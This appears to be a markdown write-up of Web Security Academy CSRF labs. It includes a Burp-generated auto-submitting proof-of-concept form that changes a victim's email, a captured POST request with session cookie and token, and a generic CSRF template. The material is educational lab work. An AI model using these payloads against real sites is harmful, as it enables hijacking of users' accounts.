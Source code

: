 ## CSRF vulnerability with no defenses
- POST request to /my-account/change-email does not have any CSRF protections. 
- We utilize Burp Suite to generate a CSRF PoC to use on our exploit server to solve the lab. 
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a5500bb03f12bbb808b087b0084007c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="fake&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
## CSRF where token validation depends on request method
- We note that changing email requires a CSRF token that cannot be removed or nullified in the body of the POST request.
- Let's alter the POST request from:
```
POST /my-account/change-email HTTP/2
Host: 0aa300e903e645daa8aadef600a10092.web-security-academy.net
Cookie: session=6zRITg1tqB9Eh3jTUmhYmhCv0JewZeLJ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 69
Origin: https://0aa300e903e645daa8aadef600a10092.web-security-academy.net
Referer: https://0aa300e903e645daa8aadef600a10092.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-Pwnfox-Color: yellow
Te: trailers

email=wiener4%40normal-user.net&csrf=wxN4HFe3P0vgWDHNar2dTT0QuGrj8yy9
```
to 

![image](https://github.com/user-attachments/assets/28a9f86f-b4be-4d4e-87b1-8e09c212a52e)

## CSRF where token validation depends on token being present
- Changing email initially includes a CSRF token in the body, but we found just removing it still allows for successful changing of email. We generated a CSRF PoC by just removing the CSRF token.

## CSRF where token is not tied to user session
- Two users are provided. We assume one as compromised and intercept the POST request to change email. Copy the CSRF token and drop the request.
- Generate a CSRF PoC with the copied CSRF token of the compromised user and use it to change the email of the second user. 

## Miscellaneous Notes
- Basic CSRF PoC template for **CSRF vulnerability with no defenses**:
```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything%40web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>
```
